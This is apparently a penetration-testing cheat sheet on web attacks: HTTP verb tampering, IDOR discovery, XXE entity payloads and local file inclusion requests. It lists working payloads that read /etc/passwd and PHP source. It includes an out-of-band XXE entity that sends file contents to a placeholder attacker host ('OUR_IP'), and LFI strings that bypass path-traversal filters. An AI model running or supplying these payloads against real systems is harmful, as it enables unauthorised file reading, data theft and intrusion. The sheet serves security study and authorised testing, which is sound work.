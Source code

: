 # WEB ATTACKS

## HTTP Verb Tampering

`HTTP Method`
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command**   | **Description**   |
| --------------|-------------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

## IDOR

`Identify IDORS`
- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command**   | **Description**   |
| --------------|-------------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

## XXE

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |

# FILE INCLUSION
## Local File Inclusion

| **Command** | **Description** |
| --------------|-------------------|
| **Basic LFI** |
| `/index.php?language=/etc/passwd` | Basic LFI |
| `/index.php?language=../../../../etc/passwd` | LFI with path traversal |
| `/index.php?language=/../../../etc/passwd` | LFI with name prefix |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path |
| **LFI Bypasses** |
| `/index.php?language=....//....//....//....//etc/passwd` | Bypass basic path traversal filter |